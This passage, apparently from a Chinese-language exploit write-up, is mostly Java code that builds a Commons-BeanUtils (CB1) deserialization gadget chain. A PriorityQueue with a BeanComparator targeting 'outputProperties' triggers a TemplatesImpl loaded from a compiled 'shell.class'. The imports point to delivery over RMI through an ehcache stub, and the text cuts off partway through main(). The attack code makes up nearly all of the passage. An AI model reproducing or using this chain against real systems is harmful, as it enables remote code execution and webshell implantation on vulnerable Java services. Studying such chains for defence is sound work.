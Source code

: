 ```java
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }
}

```
最后再将CB1的逻辑完成，如下所示
```java
PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
queue.add(1);
queue.add(1);
Constructor constructor = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredConstructor();
BeanComparator comparator = (BeanComparator) constructor.newInstance();
Field f3 = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredField("property");
f3.setAccessible(true);
f3.set(comparator,"outputProperties");
Field f4 = queue.getClass().getDeclaredField("comparator");
f4.setAccessible(true);
f4.set(queue,comparator);
Field f5 = queue.getClass().getDeclaredField("queue");
f5.setAccessible(true);
Object[] queueArray = (Object[]) f5.get(queue);
queueArray[0] = templates;
```
完整代码如下
```java
package com.myproject.temp;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import net.sf.ehcache.distribution.RMICachePeer_Stub;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.file.Files;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.Naming;
import java.util.PriorityQueue;
import java.util.zip.GZIPOutputStream;

public class Test_2 {
    public static void main(String[] args) throws Exception {
        byte[] ctBytes = Files.readBytes(new File("/Users/aaronluo/Documents/CodeReview/JavaCode/Project/target/classes/com/myproject/temp/shell.class"));
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        CtClass ctClass;
```